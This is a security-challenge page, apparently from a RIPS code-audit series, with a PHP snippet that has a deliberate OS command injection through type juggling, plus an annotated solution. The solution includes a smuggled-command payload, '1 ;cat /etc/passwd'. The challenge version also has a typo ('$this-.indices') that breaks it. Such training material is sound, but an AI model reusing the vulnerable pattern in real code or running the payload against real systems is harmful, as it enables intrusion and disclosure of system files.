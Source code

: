 ```yaml
---

title: rips-51
author: raxjs
tags: [php]

---
```


$DESCRIPTION

<!--more-->
{{< reference src="https://twitter.com/ripstech/status/1131863413561315328" >}}

# Code
{{< code language="php"  title="Challenge" expand="Show" collapse="Hide" isCollapsed="false" >}}
declare(strict_types=1);

class ParamExractor {
    private $validIndices = [];

    public function indices($input) {
        $validate = function (int $value, $key) {
            if($value > 0) {
                $this->validIndices[] = $key;
            }
        };

        try {
            array_walk($input, $validate, 0);
        } catch (TypeError $error) {
            echo "Only numbers are allowed as input";
        }

        return $this->validIndices;
    }

    public function getCommand($parameters) {
        $indices = $this-.indices($parameters);
        $params = [];
        foreach ($indices as $index) {
            $params[] = $parameters[$index];
        }
        return implode($params, ' ');
    }
}

$cmd = (new ParamExractor())->getCommand($_GET['p']);
system('resizeImg image.png ' . $cmd);

{{< /code >}}

# Solution
{{< code language="php" highlight="10-13,19,34,35,40,42" title="Solution" expand="Show" collapse="Hide" isCollapsed="true" >}}
declare(strict_types=1);

class ParamExractor {
    private $validIndices = [];

    public function indices($input) {
	
        $validate = function (int $value, $key) {
			// 3) $value and $key is user input                         	
			//    the type check is vulnerable against php type juggling	
			//    in php version < 8.0                                  	
            if($value > 0) {
                $this->validIndices[] = $key;
            }
        };

        try {
			// 2) $input is user input
            array_walk($input, $validate, 0);
        } catch (TypeError $error) {
            echo "Only numbers are allowed as input";
        }

        return $this->validIndices;
    }

    public function getCommand($parameters) {
        $indices = $this->indices($parameters);
        $params = [];
        foreach ($indices as $index) {
            $params[] = $parameters[$index];
        }
		// 4) the $params array can have arbitrary strings because of	
		//    the type juggling problem above                        	
        return implode($params, ' ');
    }
}

// 1) argument to getCommand is user input
$cmd = (new ParamExractor())->getCommand($_GET['p']);
// 5) os command injection here
system('resizeImg image.png ' . $cmd);




# example:

var_dump((new ParamExractor())->getCommand(array(1, 2, "1 ;cat /etc/passwd")));
#PHP Notice:  A non well formed numeric value encountered in php shell code on line 7
#string(22) "1 2 1 ;cat /etc/passwd"


{{< /code >}}
